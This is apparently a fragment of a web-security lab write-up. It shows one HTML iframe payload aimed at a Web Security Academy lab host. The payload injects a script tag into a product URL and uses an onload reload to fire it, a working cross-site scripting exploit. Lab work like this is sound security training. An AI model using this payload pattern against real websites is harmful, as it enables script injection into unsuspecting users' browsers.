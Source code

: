 ```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1';window.x=1;">
```

![](assets/2022-07-19-11-27-12.png)
